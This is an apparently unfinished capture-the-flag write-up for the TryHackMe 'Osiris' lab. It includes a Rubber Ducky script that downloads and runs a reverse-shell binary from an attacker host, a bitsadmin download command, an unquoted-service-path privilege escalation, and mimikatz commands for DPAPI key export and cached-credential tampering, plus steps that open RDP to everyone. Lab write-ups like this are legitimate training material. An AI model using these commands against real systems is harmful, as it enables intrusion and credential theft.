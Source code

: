 # Osiris - WIP

https://tryhackme.com/room/osiris

Rated "INSANE"

## Flag 1 - Initial Foothold

The machine won't respond to scans, but as the description says, tftp is open. This first requires that you have a tftp client, on the attack box install using `sudo apt install tftp`, then connect using `tftp <targetip>`, however first we need a script.

To exploit rubberducky, I used the script below. This uses [reverse_ssh](https://github.com/NHAS/reverse_ssh), my revshell of choice, which is typically ignored by windows defender and other protection mechanisms.

```
DELAY 1000
GUI r
DELAY 200
STRING powershell -W hidden
ENTER
DELAY 3000
STRING Invoke-WebRequest http://10.10.80.36:1234/client.exe -outfile c:\windows\temp\c.exe
ENTER
DELAY 3000
STRING c:\windows\temp\c.exe
ENTER
```

I put the above in a file named `script`, then connected over tftp and ran `put script` to put it in place. For this to work, a local webserver on port 1234 allows client.exe to be downloaded, and I got a shell connection in seconds.

On the machine as `alcrez` the first flag is in their desktop folder. 

## Flag 2 - Privesc to System

Downloading further files (e.g. obfuscated winpeas or other exploit tools) can be done with `bitsadmin.exe /transfer /Download /priority Foreground http://10.10.80.36:1234/w.exe c:\windows\temp\w.exe`, or using tftp if that floats your boat.

To privesc to system, a few things can be picked up from local enumeration:

- there is a folder at c:\scripts, that contains a vbs file and a cmd file. The vbs file seems to do nothing, but appears to relate to a local service (details next), while the cmd file downloads a zip file to c:\temp, extracts it, then force copies its contents to `c:\program files\ivpn client`.
- there is a local service named `ivpn service` that executes the ivpn client. notably this service uses an unquoted path, and so if you could get an exe named ivpn into program files or into the ivpn folder, you could hijack the service.
- the service runs as system, but as the user alcrez you have the rights to restart the service.

Presumably the vbs script that seems to do nothing triggers whatever is needed to run the extract and copy operation. This can be tested by putting any arbitary file into c:\temp, running the vbs, and observing that file is now inside the program files vpn folder. The path to privesc is thus: create a valid service binary that will give you a rev shell and avoids defender, put that in c:\temp, run the vbs script and finally restart the service to trigger the binary.

To exploit this, I used bitsadmin to download a service binary (specifically my own [unquoted](https://github.com/ChrisPritchard/unquoted)) that would run my reverse shell payload. I placed this in c:\temp with the name IVPN.exe, then ran `c:\scripts\update.vbs`. Finally I restarted the service with `restart-service -displayname "ivpn*"`.

> Note, I found this a bit finicky. Sometimes it would work, sometimes the update.vbs wouldn't trigger an update of the files (maybe due to file locks etc), or the service wouldnt start. One way to diagnose is to check with `Get-EventLog -LogName "Application" -Newest 3 -EntryType "Error" -Source ".NET Runtime" -ErrorAction SilentlyContinue | Select -ExpandProperty Message` which might print a helpful stacktrace. Otherwise, just terminating and renewing the osiris machine was the best option.

This triggered the revshell and I got a session as NT AUTHORITY/SYSTEM. The second flag was in the user chajoh's desktop folder.

## Flag 3 - DPAPI

The final flag is in a keepass database under documents for the user chajoh. This DB is set so the user can access it using their logon information (e.g. no password), which means it can't be opened unless we have an interactive session as the user chajoh.

The problem is there is no active session for chajoh to hijack, so we would need their password to login. We can extract an ntlm hash, but its unbreakable. We can force change the password using our admin session, but that would invalidate the keepass encryption meaning we would no longer be able to open the db. The intended solution is to use the ntlm hash of the user plus the domain DPAPI master key (extracted from the domain controller in prior rooms, Ra or Ra2) to generate a new key for keepass so it can be opened properly.

The steps below require mimikatz: grab this [from here](https://github.com/gentilkiwi/mimikatz/releases), extract on the attacker machine, and then use x64/mimikatz.exe in your endeavours.

Steps:

1. Get the dpapi backup key from [Ra](https://tryhackme.com/room/ra) or [Ra 2](https://tryhackme.com/room/ra2): Once getting system/admin on these machines, get and run mimikatz and then `lsadump::backupkeys /system:localhost /export`. Exfiltrate the pfx file.
2. Get mimikatz onto Osiris and replace cherjoh's password in the ntlm cache: `lsadump::cache /user:chajoh /password:NewPassword1234 /Kiwi`
3. Enable remote desktop access to the Osiris machine: `Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0` and add everyone to remote desktop users: `net localgroup "Remote Desktop Users" Everyone /add`
